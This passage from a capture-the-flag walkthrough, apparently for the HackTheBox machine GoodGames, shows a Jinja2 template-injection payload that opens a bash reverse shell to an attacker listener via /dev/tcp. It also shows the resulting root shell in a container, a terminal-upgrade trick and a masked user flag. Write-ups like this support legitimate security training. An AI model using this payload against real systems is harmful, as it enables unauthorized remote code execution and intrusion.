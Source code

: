 Not only is that execution, but as root!

#### Shell

I’ll use the same payload to get a reverse shell:

```

{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}

```

On submitting, it hangs, but there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.130 45016
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend#

```

I’ll use the `script` trick to get a better shell:

```

root@3a453ab39d3d:/backend# script /dev/null -c bash
script /dev/null -c bash            
Script started, file is /dev/null
root@3a453ab39d3d:/backend# ^Z                 
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@3a453ab39d3d:/backend#

```

There’s also a single user with `user.txt`:

```

root@3a453ab39d3d:/home/augustus# cat user.txt
e897d18e************************

```

## Shell as augustus on GoodGames

### Enumeration
